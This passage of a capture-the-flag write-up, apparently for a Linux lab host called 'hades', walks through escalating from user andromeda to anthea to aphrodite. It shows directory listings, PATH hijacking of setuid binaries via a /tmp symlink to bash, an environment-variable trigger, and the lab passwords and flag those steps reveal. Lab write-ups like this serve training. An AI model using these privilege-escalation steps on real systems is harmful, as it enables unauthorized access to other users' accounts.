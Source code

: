 ```plaintext title="ls -lah"
drwxr-x--- 2 root      andromeda 4.0K Jul 26  2023 .
drwxr-xr-x 1 root      root      4.0K Jul 26  2023 ..
-rw-r--r-- 1 andromeda andromeda  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 andromeda andromeda 3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 andromeda andromeda  807 Apr 23  2023 .profile
-r--r----- 1 anthea    anthea      21 Jul 26  2023 anthea_pass.txt
-rw-r----- 1 root      andromeda   22 Jul 26  2023 flagz.txt
-rw-r----- 1 root      andromeda  166 Jul 26  2023 mission.txt
-rwS--s--- 1 root      andromeda  16K Jul 26  2023 uid
```

```shell title="Exploit it"
andromeda@hades:~$ ln -sv /bin/bash /tmp/id
ln: failed to create symbolic link '/tmp/id': File exists
andromeda@hades:~$ PATH=/tmp
andromeda@hades:~$ ./uid
id: dircolors: command not found
anthea@hades:~$ export PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
anthea@hades:~$ cat anthea_pass.txt
yWFLtSNQArEBTHtWgkKd
```

## User - anthea

### flag - 05

```plaintext
^AcFLuAjhydNKIkPoFLL^
```

### 任务目标

```plaintext title="mission.txt"
User aphrodite is obsessed with the number 94.
```

### 行动

```plaintext title="ls -lah"
drwxr-x--- 1 root      anthea    4.0K Jul 26  2023 .
drwxr-xr-x 1 root      root      4.0K Jul 26  2023 ..
-rw-r--r-- 1 anthea    anthea     220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 anthea    anthea    3.5K Feb  3 15:51 .bashrc
-rw-r--r-- 1 anthea    anthea     807 Apr 23  2023 .profile
-r--r----- 1 aphrodite aphrodite   21 Jul 26  2023 aphrodite_pass.txt
-rw-r----- 1 root      anthea      22 Jul 26  2023 flagz.txt
-rw-r----- 1 root      anthea     175 Jul 26  2023 mission.txt
-rwS--s--- 1 root      anthea     16K Jul 26  2023 obsessed
```

```shell title="Exploit it"
anthea@hades:~$ export MYID=^;./obsessed 
Current MYID: 94
aphrodite@hades:~$ cat aphrodite_pass.txt 
HPJVaqRzieKQeyyATsFv
```
